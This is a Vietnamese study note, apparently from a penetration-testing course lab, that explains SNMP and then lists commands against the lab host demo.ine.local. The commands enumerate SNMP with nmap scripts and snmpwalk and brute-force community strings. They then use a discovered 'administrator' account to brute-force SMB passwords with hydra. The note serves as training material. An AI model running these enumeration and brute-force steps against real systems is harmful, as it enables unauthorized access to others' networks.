

# SNMP Enum

SNMP (Simple Network Management Protocol) là giao thức để giám sát và quản lý các thiết bị mạng như router, switches, printer, server,...

SNMP cho phép admin cấu hình để ghi log hoặc alert

SNMP sử dụng UDP để vận chuyển bao gồm 3 thành phần chính: 

- SNMP Manager:

- SNMP Agent:

- Management Information Base (MIB): 

Version:

- SNMPv1: dùng mật khẩu để xác thực

- SNMPv2c: có 1 số cải thiện nhưng vẫn dùng mật khẩu để xác thực 

- SNMPv3: có mã hóa, toàn vẹn message, và xác thực dựa trên người dùng

Port 161 (UDP): dùng cho SNMP query

Port 162 (UDP): dùng cho SNMP trap hay notification

Enum SNMP liên quan đến việc SNMP quey được kích hoạt

## lab

`nmap -sU -p 161 demo.ine.local`

`ls -al /usr/share/nmap/scripts/ | grep -e "snmp"`

`ls -al /usr/share/nmap/nselibs/data | grep -e "snmp"`

`nmap -sU -sV -p 161 --script=snmp-brute demo.ine.local`

Ta tìm được 3 cộng đồng 

`snmpwalk -v 1 -c public demo.ine.local`

Rất nhiều thông tin được tìm ra nhưng không đọc được hết

`nmap -sU -p 161 --script snmp-* demo.ine.local > snmp-info`

`cat snmp-info`

-> có user administrator, ta sẽ dùng user này để brute-force tấn công smb

`hydra -l administrator -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb`

